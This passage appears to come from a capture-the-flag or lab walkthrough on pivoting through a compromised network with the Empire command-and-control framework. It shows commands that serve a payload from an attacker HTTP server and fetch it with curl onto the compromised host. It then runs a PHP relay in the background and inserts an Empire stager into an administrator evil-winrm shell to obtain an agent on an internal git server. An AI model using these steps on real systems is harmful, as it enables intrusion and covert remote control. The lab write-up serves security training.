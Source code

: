 In attacker machine start http server:

```bash
$ sudo python3 -m http.server 80
```

On the public-facing compromised host:

```bash
$ cd /tmp

$ mkdir hop-unknown

$ cd hop-unknown

$ curl http://10.50.91.83:80/hop.zip -o hop.zip

$ unzip hop.zip
```

Start the php web server on a compromised host using the port, selected in
http_hop listener configuration:

```bash
$ php -S 0.0.0.0:15183 &>/dev/null &
```

Make sure the server is indeed running:

```bash
$ ss -tulwn | grep 15183
```

Now navigate to stagers and copy the stager for gitserver. Insert it into evilwinrm 
shell, that runs as administrator. After you're done, you should have an Agent,
connected to git-server!

![git-agent](https://i.postimg.cc/XJWZpjrw/git-agent.png)

---

### ***Command and Control** Empire: Modules*

Sherlock module example:

![sherlock-module-example](https://i.postimg.cc/Sxpp0J37/git-agent-module-example.png)

---

## *Machine #3*

### ***Personal PC** Enumeration*

Just for fun I'm gonna use Empire module called
powershell/situational_awareness/network/portscan. Configure it:

- Hosts - 10.200.90.100
- TopPorts - 50
- ReadableOut - res.nmap
- SkipDiscovery - True
